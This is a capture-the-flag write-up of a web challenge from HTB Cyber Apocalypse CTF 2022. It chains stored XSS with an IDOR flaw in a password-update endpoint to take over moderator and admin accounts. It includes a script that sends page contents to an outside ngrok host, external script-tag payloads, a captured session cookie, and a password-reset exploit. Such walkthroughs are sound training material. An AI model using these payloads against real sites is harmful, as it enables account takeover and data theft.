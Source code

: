 ```yaml
---
title: "Kryptos Support challenge Writeup"
header:
  teaser: "/assets/images/CTFs/Flag.png"
tags: ["CTF", "XSS", "IDOR"]
date: 2022-05-19T12:49:18+34:08
categories:
  - Web Exploitation 
ribbon: red
toc: true
draft: false
---
```


HTB Cyber Apocalypse CTF 2022 was held from the 14th of May Until the 19th of the month , and we have participated under the team 0xcha0s, we have managed to solve multiple challenges. this challenge was ranked easy

<!--more-->

| CTF name  | [Cyber Apocalypse CTF 2022](https://www.hackthebox.com/events/cyber-apocalypse-2022) |
| --------- | ------------------------------------------------------------------------------------ |
| challenge | Kryptos Support                                                                      |
| category  | web                                                                                  |
| about     | XSS , IDOR                                                                           |
| team      | [0xCha0s](https://ctftime.org/team/168238)                                           |

## Discovery :

This easy challenge are introduced with this page , as we see just add a report issue interface:

![image](/assets/images/CTFs/Kryptos-Support/20220517090100.png)

There is also end point `/login` But there is no `/signup` or `register`

![image](/assets/images/CTFs/Kryptos-Support/20220517090146.png)

and First thing i have tried is to get xss , i used xsshunter as a proof only latter on will use ngrok http server :

```html
<script src=https://XXXXXXX.xss.ht></script>
```

and we get a hit :

![image](/assets/images/CTFs/Kryptos-Support/20220517090357.png)

we know from the report the following :

- vulnerable page `http://127.0.0.1:1337/tickets/new`
- the session used is JWT based: 
```
session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI3NzEwMTh9.iQshqI16zGjE3tUOVQHsqLKaZofC8JyFN4CWhHH6lWg
```
- and from the DOM we can see there are other internal end points which are `/settings` and `/logout`

Decoding the cookie we got the username and the uid

![image](/assets/images/CTFs/Kryptos-Support/20220517090628.png)

## Attacking :

I wanted to get an overview about what functions are there in the `/settings` page. so we craft this payload :

```javascript
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://127.0.0.1:1337/settings");
xhr.onload = function () {
  var out = btoa(xhr.responseText);
  var exfil = new XMLHttpRequest();
  exfil.open("GET", "http://3bbd-156-194-235-84.ngrok.io/?out=" + out);
  exfil.send();
};
xhr.send();
```

and will use this payload at the report page to request the script we host :

```html
<script src="http://3bbd-156-194-235-84.ngrok.io/get.js"></script>
```

![image](/assets/images/CTFs/Kryptos-Support/20220517091750.png)

decoding it :

![image](/assets/images/CTFs/Kryptos-Support/20220517091900.png)

will notice the page has the update password function also , we can check the Js code under `/static/js/settings.js` and it is publicly exposed :

```javascript
$(document).ready(function() {
	$("#update-btn").on('click', updatePassword);

});

async function updatePassword() {

	$('#update-btn').prop('disabled', true);

	let card = $("#resp-msg");
    card.text('Updating password, please wait');
	card.show();

	let uid = $("#uid").val();
	let password1 = $("#password1").val();
	let password2 = $("#password2").val();

	if ($.trim(password1) === '' || password1 !== password2) {
		$('#update-btn').prop('disabled', false);
		card.text("Please type-in the same password!");
		card.show();
		return;
	}

	await fetch(`/api/users/update`, {
			method: 'POST',
			headers: {
				'Content-Type': 'application/json',
			},
			body: JSON.stringify({password: password1, uid}),
		})
		.then((response) => response.json()
			.then((resp) => {
				card.text(resp.message);
				card.show();
			}))
		.catch((error) => {
			card.text(error);
			card.show();
		});

    $('#update-btn').prop('disabled', false);
}
```

The catch here is that it doesn't check the old password , just providing the uid and the new password will reset the password. we can confirm with this script which will reset the password of the moderator user

```javascript
var xhr = new XMLHttpRequest();
var theUrl = "http://127.0.0.1:1337/api/users/update";
xhr.open("POST", theUrl);
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
xhr.send(JSON.stringify({ password: "testme123", uid: "100" }));
```

And we have successfully logged in with the new password and the username `moderator` :

![image](/assets/images/CTFs/Kryptos-Support/20220517092343.png)

Now why not reset the password for the user **`admin`** too ? , as it doesn't check on the `uid` , we can run intruder to fuzz the admin uid But for our luck it is **`1`** . from the moderator account we can reset the password without the need to use javascript code and ngrok hosting it

![image](/assets/images/CTFs/Kryptos-Support/20220517093121.png)

and now we can login with the admin user

![image](/assets/images/CTFs/Kryptos-Support/20220517093228.png)
